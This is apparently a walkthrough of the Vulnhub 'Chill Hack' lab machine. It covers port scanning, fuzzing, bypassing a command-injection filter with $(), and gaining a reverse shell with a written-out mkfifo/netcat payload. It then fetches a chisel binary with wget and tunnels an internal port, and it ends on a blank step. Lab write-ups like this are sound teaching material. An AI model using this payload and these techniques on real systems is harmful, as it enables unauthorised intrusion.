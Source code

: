 ![image](https://github.com/user-attachments/assets/87a7f2c8-cb4b-43fd-b2fd-e1ddf1e2b89f)* * *
Title: Chill Hack
Platform: Vulnhub

* * *

### Wakthrough:

- Spot the ip of the victim machine with `netdiscover -r <eth0 ip>`, to get our host machine's ip, use `ip a | grep "eth0"`

  ![image](https://github.com/user-attachments/assets/be2e49a2-5292-4bc1-b965-e365e86cd7b8)

- Our target ip 

  ![image](https://github.com/user-attachments/assets/b9e27c47-b1aa-442d-8410-e62af682e78a)

- Rustscan's result for open ports,use `rustscan -a [victim's ip] -- -sC -sV`,flag `-sV` is used for port service detection
      
        ❯ rustscan -a 192.168.184.128 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Real hackers hack time ⌛
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 192.168.184.128:21
      Open 192.168.184.128:80
      Open 192.168.184.128:22
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-26 06:32 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.02s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.01s elapsed
      Initiating Ping Scan at 06:32
      Scanning 192.168.184.128 [2 ports]
      Completed Ping Scan at 06:32, 0.01s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 06:32
      Completed Parallel DNS resolution of 1 host. at 06:32, 0.39s elapsed
      DNS resolution of 1 IPs took 0.39s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 06:32
      Scanning 192.168.184.128 [3 ports]
      Discovered open port 22/tcp on 192.168.184.128
      Discovered open port 80/tcp on 192.168.184.128
      Discovered open port 21/tcp on 192.168.184.128
      Completed Connect Scan at 06:32, 0.00s elapsed (3 total ports)
      Initiating Service scan at 06:32
      Scanning 3 services on 192.168.184.128
      Completed Service scan at 06:32, 6.26s elapsed (3 services on 1 host)
      NSE: Script scanning 192.168.184.128.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:32
      NSE: [ftp-bounce 192.168.184.128:21] PORT response: 500 Illegal PORT command.
      Completed NSE at 06:32, 6.06s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.18s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.01s elapsed
      Nmap scan report for 192.168.184.128
      Host is up, received syn-ack (0.0055s latency).
      Scanned at 2024-07-26 06:32:25 EDT for 13s
      
      PORT   STATE SERVICE REASON  VERSION
      21/tcp open  ftp     syn-ack vsftpd 3.0.3
      | ftp-anon: Anonymous FTP login allowed (FTP code 230)
      |_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
      | ftp-syst: 
      |   STAT: 
      | FTP server status:
      |      Connected to ::ffff:192.168.184.129
      |      Logged in as ftp
      |      TYPE: ASCII
      |      No session bandwidth limit
      |      Session timeout in seconds is 300
      |      Control connection is plain text
      |      Data connections will be plain text
      |      At session startup, client count was 2
      |      vsFTPd 3.0.3 - secure, fast, stable
      |_End of status
      22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcxgJ3GDCJNTr2pG/lKpGexQ+zhCKUcUL0hjhsy6TLZsUE89P0ZmOoQrLQojvJD0RpfkUkDfd7ut4//Q0Gqzhbiak3AIOqEHVBIVcoINja1TIVq2v3mB6K2f+sZZXgYcpSQriwN+mKgIfrKYyoG7iLWZs92jsUEZVj7sHteOq9UNnyRN4+4FvDhI/8QoOQ19IMszrbpxQV3GQK44xyb9Fhf/Enzz6cSC4D9DHx+/Y1Ky+AFf0A9EIHk+FhU0nuxBdA3ceSTyu8ohV/ltE2SalQXROO70LMoCd5CQDx4o1JGYzny2SHWdKsOUUAkxkEIeEVXqa2pehJwqs0IEuC04sv
      |   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFetPKgbta+pfgqdGTnzyD76mw/9vbSq3DqgpxPVGYlTKc5MI9PmPtkZ8SmvNvtoOp0uzqsfe71S47TXIIiQNxQ=
      |   256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKHq62Lw0h1xzNV41zO3BsfpOiBI3uy0XHtt6TOMHBhZ
      80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
      |_http-server-header: Apache/2.4.29 (Ubuntu)
      |_http-title: Game Info
      | http-methods: 
      |_  Supported Methods: GET POST OPTIONS HEAD
      |_http-favicon: Unknown favicon MD5: 7EEEA719D1DF55D478C68D9886707F17
      Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

- Ffuf's result for directory fuzzing after using wordlist `big.txt`

  ![image](https://github.com/user-attachments/assets/235c0f84-b0e0-47c6-93d0-a5b8b43de550)

- The webserver contains a page `secret`,I tested the site for shell command injection, i noticed it filters linux shell commands.I tested with `ls`
  and got this alert page

 
 ![image](https://github.com/user-attachments/assets/b9835310-bc20-419c-bca1-d90d3520a537)

- I bypassed the filters by enclosing the linux statement with `$()` e.g `$(ls)`. To test it, I set up a listner with nc and got a payload from
`revshells.com` to activate a reverse shell. Now we have shell access to `www-data`

  Payload: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc [Attacker'sip] [nc listener's port] >/tmp/f`

  ![image](https://github.com/user-attachments/assets/188f3c98-6c02-43dd-9a00-22fdc49bb057)

- Stabilize the shell with the instructions below
  `python3 -c "import pty;pty.spawn('/bin/bash')"
   ctrl + z {to make it a backround process}
   stty raw -echo;fg
   export TERM=XTERM`
  
  ![image](https://github.com/user-attachments/assets/9f757f47-2f93-46bf-a798-252397d3ec67)

- After runnng `netstat -antp` to check services running on the victim machine. I noticed a page was running on localhost:9001 which is
a customer page.

  ![image](https://github.com/user-attachments/assets/55c1d7c2-ca3c-44cb-b2fc-dead8e43a4b4)

- We can make it available on our machine by port forwarding it with chisel, but our first task  is to send the chisel binary from
our attacker machine.Set up a python http server with this command `python -m http.server 8000` in the director chisel is located.

 ![image](https://github.com/user-attachments/assets/cbd6da90-440f-49eb-9869-aec6ec00d198)

- Receive with `wget http://[host'sip]:[http server'sport]/[binary's name]`, it should be noted that we can only write files to directories like `/dev/shm` and `/tmp` in the victim's machine. I'll be writing to /tmp.The next step is to grant the binary with
`chmod +x {binary}` to grant execute permissions.

  ![image](https://github.com/user-attachments/assets/0871e405-846a-43e1-8373-d5837863995a)--

-  Set up a server with `chisel server -p [port] --reverse` on your target machine

  ![image](https://github.com/user-attachments/assets/1d197c0f-d4de-40b5-9ffe-368cb5663647)

- We have to set up a client on the victim's machine with `./chisel client [attacker'sip]:[chisel's server port] R:[port that you want to tunnel through]:[localhost]:[port running the service internally]`.After executing, the client should communicate with our server.

   `./chisel client 192.168.184.129:8002 R:8003:127.0.0.1:9001`
   
  ![image](https://github.com/user-attachments/assets/3eb0eb80-1e18-48f0-83dd-1a18405191cd)

- 
  

  


  
 




  
